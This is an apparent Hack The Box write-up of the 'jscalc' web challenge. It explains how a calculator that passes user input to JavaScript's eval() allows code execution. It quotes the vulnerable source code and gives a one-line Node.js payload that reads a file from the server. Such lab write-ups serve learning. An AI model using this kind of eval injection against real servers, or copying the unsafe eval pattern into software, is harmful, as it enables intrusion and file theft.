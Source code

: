 # [jscalc](https://app.hackthebox.com/challenges/jscalc) Writeup [HTB]
_Web_

## Analyzing the website
This challenge's website is

> A super secure Javascript calculator with the help of `eval()` 🤮

This makes me very happy, as the first thing that appears on the [Mozilla documentation](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) is a big red warning sign. 
Looks like I'm up to some arbitrary code execution!

Since I also have the source code of the website, I immediately check how `eval` is called:
```js
calculate(formula) {
    try {
        return eval(`(function() { return ${ formula } ;}())`);

    } catch (e) {
        if (e instanceof SyntaxError) {
            return 'Something went wrong!';
        }
    }
}
```
I also know that the flag is in a file called `/file.txt`.

## Finding a payload
I start looking for a Javascript one-liner to read the content of a file. After some attempts, I find this:
```js
require('fs').readFileSync('/flag.txt').toString();
```
I provide it to the calculator and get the flag!
